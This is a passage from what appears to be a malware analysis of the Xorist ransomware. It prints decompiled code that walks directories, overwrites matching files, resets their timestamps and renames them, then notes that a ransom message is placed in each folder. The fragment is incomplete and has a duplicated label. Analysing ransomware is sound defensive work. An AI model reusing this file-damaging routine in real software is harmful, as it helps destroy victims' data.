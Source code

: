 ```cpp
                  SetFilePointer(hFile, lDistanceToMove, 0, 0);
                  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
                }
                SetFileTime(hFile, &stru_40752E, &stru_407536, &stru_40753E);
                CloseHandle(hFile);
                MoveFileA(ExistingFileName, NewFileName);
              }
              else
              {
                CloseHandle(hFile);
              }
            }
LABEL_37:
            ;
          }
          if (!PathMatchSpecA((LPCSTR)&dword_40444F + 1, pszSpec))
            goto LABEL_19;
        }
      }
LABEL_37:
      // Call FindNextFileA to find the next file in the directory
      if (!FindNextFileA(*(HANDLE *)&FindFileData[318], (LPWIN32_FIND_DATAA)FindFileData))
        return (char *)FindClose(*(HANDLE *)&FindFileData[318]);
    }
  }
  return result;
}
```

In each folder, it will place a file :

![message](/images/xorist/message.png)
